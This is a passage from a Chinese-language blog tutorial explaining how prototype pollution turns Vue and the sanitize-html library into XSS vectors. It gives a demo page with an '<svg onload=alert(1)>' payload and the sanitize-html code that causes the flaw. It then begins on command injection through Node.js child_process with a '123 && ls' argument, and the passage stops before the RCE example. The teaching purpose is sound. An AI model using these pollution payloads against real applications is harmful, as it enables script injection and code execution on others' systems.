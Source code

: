 
一段看起來沒什麼的 Vue hello world，在我們污染了 `Object.prototype.template` 之後，就變成了 XSS，可以讓我們插入任意程式碼。

或是像下面這樣（[demo 網頁](https://aszx87410.github.io/demo/prototype-pollution/vue.html)）：

``` html
<!DOCTYPE html>

<html lang="en">
<head>
  <meta charset="utf-8">
  <script src="https://cdnjs.cloudflare.com/ajax/libs/sanitize-html/1.27.5/sanitize-html.min.js"></script>
</head>
<body>
  <script>
    Object.prototype.innerText = '<svg onload=alert(1)></svg>';
    document.write(sanitizeHtml('<div>hello</div>'))
  </script>
</body>
</html>
```

明明是做 sanitize 的 library，在污染了 `Object.prototype.innerText` 之後，就變成了 XSS 的好幫手。

為什麼會有這些問題出現呢？以上面的 `sanitize-html` 為例，是因為有這一段程式碼：

``` js
if (frame.innerText && !hasText && !options.textFilter) {
    result += frame.innerText;
}
```

因為直接預設了 innerText 是安全的字串，所以就直接拼接上去，而我們污染了這個屬性，因此當這個屬性不存在時，就會用到 prototype 的值，最後變成了 XSS。

除了 client side 以外，server side 的 Node.js 也有類似的風險，例如說這樣：

``` js
const child_process = require('child_process')
const params = ['123']
const result = child_process.spawnSync(
  'echo', params
);
console.log(result.stdout.toString()) // 123
```

這是一段很單純的程式碼，執行 `echo` 指令然後傳入參數，這個參數會自動幫你做處理，所以不用擔心 command injection 的問題：

``` js
const child_process = require('child_process')
const params = ['123 && ls']
const result = child_process.spawnSync(
  'echo', params
);
console.log(result.stdout.toString()) // 123 && ls
```

但如果有一個 prototype pollution 的漏洞，就可以搖身一變成為 RCE（Remote code execution），讓攻擊者執行任意指令（假設攻擊者可以控制 params）：
